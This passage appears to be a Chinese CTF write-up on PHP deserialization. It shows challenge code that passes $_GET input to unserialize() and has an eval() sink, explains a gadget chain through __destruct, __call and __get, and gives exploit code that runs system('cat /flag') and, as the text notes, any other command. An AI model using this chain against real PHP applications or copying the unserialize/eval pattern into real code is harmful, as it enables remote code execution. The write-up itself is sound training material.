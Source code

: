     function __construct($end)
    {
        $this->end = $end;
    }

    function __get($Attribute)
    {
        eval($this->end);
    }
}

if(isset($_GET['serialize'])) {
    unserialize($_GET['serialize']);
} else {
    highlight_file(__FILE__);
}
```
根据题面 直接搜索php反序列化
<a href="https://www.cnblogs.com/williamzou1999/p/14683192.html">[参考博客]</a></br>
分析代码 在evil类下的```__get```方法中调用了eval函数 以此为突破口</br>
魔术方法```__get```会在读取不可访问属性的值时调用</br>
而在```springboard```类下```__call```中访问了```$this->middle->hs```</br>
于是想办法调用```__call```
```__call```会在在对象中调用一个不可访问方法时调用</br>
注意到```entrance```类下```__destruct```调用了```$this->start->helloworld()```</br>
而```__desturct```会在对象被销毁时执行 即代码执行完毕</br>
因而依葫芦画瓢得到下面代码 修改evil()中的值执行任意指令

```
<?php
class entrance
{
    public $start;
    public function __construct()
    {
        $this->start = new springboard();
    }
}

class springboard
{
    public $middle;

    public function __construct(){
        $this->middle = new evil("system('cat /flag');");
    }
}

class evil
{
    public $end;

    function __construct($end)
    {
        $this->end = $end;
    }
